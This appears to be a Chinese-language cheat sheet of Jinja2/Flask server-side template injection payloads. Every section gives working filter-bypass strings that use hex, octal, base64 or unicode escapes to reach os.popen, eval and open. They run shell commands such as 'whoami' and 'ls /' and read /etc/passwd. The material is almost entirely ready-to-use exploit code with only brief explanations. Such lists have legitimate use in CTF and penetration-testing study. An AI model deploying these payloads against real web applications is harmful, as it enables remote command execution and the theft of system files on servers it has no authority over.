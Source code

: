 ```
例子：
{{''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('os').popen('whoami').read()}}
\
同理，也可使用八进制编码绕过
```

#### base64编码绕过
```
对于python2，可利用base64进行绕过，对于python3没有decode方法，不能使用该方法进行绕过。

"__class__"==("X19jbGFzc19f").decode("base64")

例子：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}  
等价于  
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

#### unicode编码绕过
```
{%print((((lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f"))|attr("\u0067\u0065\u0074")("os"))|attr("\u0070\u006f\u0070\u0065\u006e")("\u0074\u0061\u0063\u0020\u002f\u0066\u002a"))|attr("\u0072\u0065\u0061\u0064")())%}
lipsum.__globals__['os'].popen('tac /f*').read()
```

#### Hex编码绕过
```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}   
等价于   
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 绕过init
```
可以用__enter__或__exit__替代__init__

{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
 
{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

```
**参考文章**：https://blog.csdn.net/2301_77485708/article/details/132467976
<br>
